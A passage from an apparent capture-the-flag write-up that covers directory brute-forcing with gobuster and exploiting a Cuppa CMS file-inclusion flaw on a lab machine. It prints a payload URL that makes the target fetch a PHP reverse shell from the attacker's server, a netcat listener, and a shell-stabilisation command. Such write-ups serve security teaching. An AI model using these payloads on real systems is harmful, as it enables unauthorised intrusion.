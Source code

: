 ===============================================================
```

This is interesting: a mail client!

Bingo! Logging in as ```milesdyson``` with one of the previously found passwords reveals us this user's inbox, including one interesing email that gives us the ```samba``` password.

Logging in with the new found password we can find inside ```notes/important.txt``` an interesting string that would be our hidden directory.

## Further Directory Bruteforcing ##

Running gobuster against this new found directory gives us some interesting results:

```gobuster dir -u http://10.10.32.220/45kra24zxs28v3yd -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 16```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.32.220/45kra24zxs28v3yd
[+] Threads:        16
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/20 16:10:34 Starting gobuster
===============================================================
/administrator (Status: 301)
===============================================================
2021/01/20 16:26:24 Finished
===============================================================
```

## Exploiting CMS ##

In the newfound directory we are prompted with a login screen, that indicated the usage of the ```Cuppra CMS```.

Running a ```searchsploit``` for this yields us a potential exploit. This can be found in Kali in ```/usr/share/exploitdb/exploits/php/webapps/25971.txt```.

We can use one Kali's already existing PHP reverse shells and then we can run our python server so that the remote machine can execute it and out netcat listener can catch it:
```
$ cp /usr/share/webshells/php/php-reverse-shell.php ~/shell.php
$ python3 -m http.server 8000
$ nc -lnvp 1234
```
Our final payload will be:
```
http://machine-ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://my-ip:8000/shell.php
```


## Shell Stabilisation ##

Alright, now that we've set foothold, we need to stabilise our weak shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```
Proceed to background this process through ```CTRL+Z```, and then, in our previous shell:
```